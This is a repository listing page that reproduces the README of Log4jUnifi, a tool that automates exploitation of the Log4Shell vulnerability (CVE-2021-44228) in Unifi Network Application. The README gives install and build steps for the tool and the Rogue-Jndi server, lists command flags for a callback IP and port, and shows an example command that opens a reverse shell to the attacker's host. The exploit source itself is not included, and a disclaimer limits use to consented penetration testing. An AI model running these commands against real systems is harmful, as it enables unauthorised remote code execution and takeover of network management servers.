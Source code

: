 # Log4jUnifi

Exploiting CVE-2021-44228 in Unifi Network Application for remote code execution and more.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/puzzlepeaches](https://github.com/puzzlepeaches) |
| Url      | [https://github.com/puzzlepeaches/Log4jUnifi](https://github.com/puzzlepeaches/Log4jUnifi)                                               |
| Stars    | 109                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Log4jUnifi
Exploiting CVE-2021-44228 in Unifi Network Application for remote code execution and more.

* [Another Log4j on the fire: Unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)

# Why?

Proof of concepts for this vulnerability are scattered and have to be performed manually. This repository automates the exploitation process. See the blog post above for guidance on post-exploitation.

# Install

This repository can be used manually or with Docker.

### Manual install

To download and run the exploit manually, execute the following steps. First, ensure that Java and Maven are installed on your attacker host. To do this using apt on Debian based operating systems, run the following command:

```
apt update && apt install openjdk-11-jre maven
```

Clone the GitHub repository and install all python requirements:

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi \
    && cd Log4jUnifi && pip3 install -r requirements.txt
```

From the root of the Log4jUnifi repository, compile the Rogue-Jndi project using the command below:

```
mvn package -f utils/rogue-jndi/
```

### Docker install

First, ensure that Docker is installed on your attacking host. (I am not going to walk you through doing this)

Following that, execute the following command to clone the repository and build the Docker image we will be using.

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi \
    && cd Log4jUnifi && docker build -t log4junifi .
```

To run the container, run a command similar to the following with your command line flags appended. Note that the container will not catch the reverse shell. You need to create a ncat listener in a separate shell session:

```
docker run -it -v $(pwd)/loot:/Log4jUnifi/loot -p 8090:8090 -p 1389:1389 log4junifi \ 
    -u https://unifi.acme.com:8443 -i 192.168.1.1 -p 4444
```


# Usage

```
usage: exploit.py [-h] -u URL -i CALLBACK -p PORT

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Unifi Network Manager base URL
  -i CALLBACK, --ip CALLBACK
                        Callback IP for payload delivery and reverse shell.
  -p PORT, --port PORT  Callback port for reverse shell.
```

# Examples

Get a reverse shell using the tool installed on your local system:

```
python3 exploit.py -u https://unifi.acme.com:8443 -i 10.10.10.1 -p 4444
```

# Disclaimer
This tool is designed for use during penetration testing; usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse of this program.



## Get the content

```
git clone https://github.com/puzzlepeaches/Log4jUnifi
cd Log4jUnifi
```

{% embed url="https://github.com/puzzlepeaches/Log4jUnifi" %}

<figure><img src="https://avatars.githubusercontent.com/u/8538866?v=4" alt=""><figcaption><p>puzzlepeaches</p></figcaption></figure>
